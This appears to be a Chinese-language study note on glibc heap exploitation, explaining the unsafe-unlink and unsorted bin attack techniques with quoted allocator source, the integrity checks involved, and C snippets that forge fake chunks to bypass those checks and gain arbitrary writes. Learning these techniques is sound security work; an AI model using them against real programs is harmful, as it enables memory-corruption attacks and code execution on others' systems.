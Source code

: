 ```yaml
---
title: "Heap Exploitation"
date: 2024-12-24
published: false
---
```


## unsafe-unlink  

|||
|-|-|
|版本|latest|
|效果|使目標ptr從指向UAF chunk改為ptr-0x18|

unlink的目的為把空閒的heap從雙向陣列中拿出來，這幾種狀況會觸發:  

1. malloc()
    - 當在剛好大小符合的 large chunk 中取出 chunk 時
    - 當從比請求大小大的 bin 中取出 chunk 時
2. free(), malloc_consolidate()
    - 合併前後freed chunk
3. relloc()
    - 合併前向freed chunk

### unlink_chunk()

```c
unlink_chunk (mstate av, mchunkptr p)
{
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
  if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
    {
      if (p->fd_nextsize->bk_nextsize != p
      || p->bk_nextsize->fd_nextsize != p)
    malloc_printerr ("corrupted double-linked list (not small)");

      if (fd->fd_nextsize == NULL)
    {
      if (p->fd_nextsize == p)
        fd->fd_nextsize = fd->bk_nextsize = fd;
      else
        {
          fd->fd_nextsize = p->fd_nextsize;
          fd->bk_nextsize = p->bk_nextsize;
          p->fd_nextsize->bk_nextsize = fd;
          p->bk_nextsize->fd_nextsize = fd;
        }
    }
      else
    {
      p->fd_nextsize->bk_nextsize = p->bk_nextsize;
      p->bk_nextsize->fd_nextsize = p->fd_nextsize;
    }
    }
}
```

#### 目的

unsafe unlink的目標為利用這段unlink_chunk()中的  

```c
fd->bk = bk;
bk->fd = fd;
```

可以達成任意讀寫

#### 三個check  

unlink_chunk()中有三段檢查:

1. 檢查p->fd->bk == p &&  p->bk->fd == p

    ```c
    if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
        malloc_printerr ("corrupted double-linked list");
    ```

2. 檢查當前chunksize是否為下一個chunk的prev_size

    ```c
    if (chunksize (p) != prev_size (next_chunk (p)))
        malloc_printerr ("corrupted size vs. prev_size");
    ```

3. 檢查非smallbin的chunk，`fd_nextsize`和`bk_nextsize`的完整性

    ```c
    if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
        if (p->fd_nextsize->bk_nextsize != p|| p->bk_nextsize->fd_nextsize != p)
            malloc_printerr ("corrupted double-linked list (not small)");
    ```

### 初始化

我們希望這些chunk的大小會被放到unsorted bin，而不是fastbin或tcache

```c
uint64_t *ptr0, *ptr1;
ptr0 = (uint64_t *)malloc(0x410);
ptr1 = (uint64_t *)malloc(0x410);

target = ptr0;

printf("chunk_1: %p chunk_2: %p\n", ptr0, ptr1);
printf("target: %p\n\n", &target);
```

這是最初始chunk的狀態  
![alt text](image-1.png)

### bypass第一個check

現在要做的是，偽造一個fake_chunk在chunk_1 + 0x10  
接著把fake_chunk->fd 設為target - 0x18  
把fake_chunk->bk 設為target - 0x10  

```c
target[2] = (uint64_t)(&target - 0x3);
target[3] = (uint64_t)(&target - 0x2);  
```

![alt text](image-2.png)  
然後可以bypass第一個check，因為`x->bk` 會相等於`x[3]`，`x->fd`會等同於`x[2]`
![alt text](image-3.png)

### bypass第二個和第三個check

```c
/* fake a chunk at chunk_1 + 0x10 */
target[0] = 0x0;     // fake_chunk prev size
target[1] = 0x410;   // fake_chunk size

/* unset "PREV_INUSE", faking chunk_1 as freed */
ptr1[-2] = 0x410;    // chunk_2 prev size
ptr1[-1] = 0x420;    // chunk_2 size (can be done with a bug like a heap overflow)
target[4] = 0x0;     // fd_nextsize
```

![alt text](image-6.png)

### free

成功觸發了unlink，執行`BK->fd = FD`，成功達成目標
![alt text](image-5.png)

- [reference](https://blog.csdn.net/m0_64195960/article/details/125371765)

## unsorted bin attack

|||
|-|-|
|版本|< glibc 2.29|
|效果|可以把unsorted_chunk (av) 寫到任意位址|

### __int_malloc()

在`__int_malloc()`有這麼一段程式碼  

```c
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

_malloc.c: 3777_  

其用途可以在unsorted_bin 遍歷過這個chunk的時候將他從double list移除
但我們如果可以控制到bck的位址，那就可以將在隨意位址寫入`unsorted_chunks (av)`的位址

### 初始化

```c
unsigned long *ptr0 = malloc(0x410);
unsigned long *ptr1 = malloc(0x420);
unsigned long *ptr2 = malloc(0x430);
```

在一開始我們可以看到unsorted_chunks(av)的fd和bk都指向自己
![alt text](image-7.png)

### free

```c
free(ptr0);
```

![alt text](image-8.png)

```c
free(ptr2);
```

{{< alert >}}
free(ptr2)單純是方便觀察，如果只free(ptr0)也是可行的
{{< /alert >}}

![alt text](image-9.png)

### 竄改ptr0->bk

將chunk_1->bk 竄改為target-0x10

```c
ptr0[1] = (unsigned long)(&target - 0x2);
```

![alt text](image-10.png)

### malloc

malloc 跟竄改的chunksize一樣的大小


### 小發現

值得一提的是，因為unsorted bin要從尾端拿值出來，所以他會先往bk方向遍歷  
而我們chunk 1的bk已經被控制了(也就是說double linked list的結構崩壞)
所以接下來只要在malloc一次就會崩潰  

> 要注意使用到函數有調用malloc的(例如第一次呼叫printf)  
